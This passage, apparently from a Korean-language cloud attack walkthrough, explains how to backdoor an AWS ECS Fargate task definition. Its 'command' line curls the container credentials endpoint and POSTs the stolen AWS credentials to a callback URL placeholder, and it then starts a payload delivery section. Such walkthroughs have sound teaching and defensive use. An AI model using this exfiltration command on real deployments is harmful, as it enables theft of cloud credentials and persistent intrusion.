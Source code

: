 ```python
    "volumes": [],
    "placementConstraints": [],
    "requiresCompatibilities": [
        "FARGATE"
    ],
    "cpu": "256",
    "memory": "512"
}
```

- 다음과 같은 형태로 백도어 json 파일을 제작을 하는데 이때 중요한 파라미터 라인은

```python
"command": [
 "/bin/sh -c \"curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI > data.json && curl -X POST -d @data.json {{CALLBACK URL}} \" "
],
```

- 백도어 작업에 필요한 명령인 linka local ddress를 이용한 IMDS 기능으로 credentials 정보를 curl http 요청을 진행해서 정보를 추출할 수 있도록 준비를 합니다
- 현재 task 정보의 파라미터로 arn 정보 역시 기입을 한후 백도어를 등록할 준비를 합니다

### 백도어 페이로드 전달

![Untitled](./28.png)

```python
{
    "taskDefinition": {
        "taskDefinitionArn": "arn:aws:ecs:us-east-1:712987748923:task-definition/webapp:3",
        "containerDefinitions": [
            {
                "name": "webapp",
                "image": "python:latest",
                "cpu": 128,
                "memory": 128,
                "memoryReservation": 64,
                "portMappings": [
                    {
                        "containerPort": 80,
                        "hostPort": 80,
                        "protocol": "tcp"
                    }
```